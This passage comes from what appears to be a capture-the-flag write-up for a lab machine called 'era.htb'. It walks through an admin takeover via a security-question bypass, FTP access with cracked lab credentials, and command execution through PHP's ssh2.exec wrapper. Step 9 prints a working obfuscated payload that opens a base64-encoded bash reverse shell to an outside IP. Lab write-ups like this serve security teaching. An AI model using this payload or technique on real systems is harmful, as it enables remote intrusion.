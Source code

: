 ```php
}
```

This code allows administrators to use PHP wrappers for file access, creating a Local File Inclusion (LFI) vulnerability.

### Step 7: Admin Account Compromise

The backup also contains `security_login.php`, which shows a security question bypass mechanism. We can update security questions for the admin account using the yuri user session.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756751736040/630bd412-140b-4073-83d0-76cb023f83ff.png align="center")

Now we can log in as admin using the security questions:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756751770819/79a9628c-12fa-470c-bcbe-459110f7e9bc.png align="center")

**Success!** We're now logged in as admin:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756751815337/1fb3692e-01d5-44aa-8544-973f0a4d0e09.png align="center")

### Step 8: FTP Access and SSL Keys

With the cracked credentials, let's try FTP access:

```bash
ftp era.htb
# Login with yuri:mustang
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756751874764/7646c63b-aa0c-43ef-967d-143bb33f1b89.png align="center")

In the FTP server, we find SSL signing keys in the `/signing` directory:

* `key.pem` - Private key for signing
    
* `x509.genkey` - Certificate generation config
    

### Step 9: Reverse Shell via PHP Wrapper

Since we have admin access, we can use the SSH2 PHP extension to execute commands:

```php
http://file.era.htb/download.php?id=54&show=true&format=ssh2.exec://eric:america@127.0.0.1/bash%20-c%20%27printf%20KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTQuOTMvOTAwMSAgMD4mMSkgJg|base64%20-d|bash%27;
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756751898139/2324e850-9045-478a-967e-2b8b5c5f88b5.png align="center")

**User flag captured:** `9c6ec6a043e14bb7xxxxxxxxxxxxxxxxx`

## Privilege Escalation

### Step 10: System Enumeration
